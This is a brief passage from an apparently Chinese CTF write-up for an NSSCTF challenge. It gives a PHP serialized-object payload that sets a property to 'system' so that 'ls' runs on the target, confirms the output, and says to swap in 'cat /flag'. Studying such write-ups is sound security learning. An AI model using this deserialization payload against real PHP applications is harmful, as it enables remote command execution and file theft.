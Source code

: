 ```
O:3:"lyh":3:{s:3:"url";s:10:"NSSCTF.com";s:2:"lt";s:6:"system";s:3:"lly";s:2:"ls";}
```

![image-20250808075154426](./NSSCTF-4.assets/image-20250808075154426.png)

回显正确

将lly改为 cat /flag
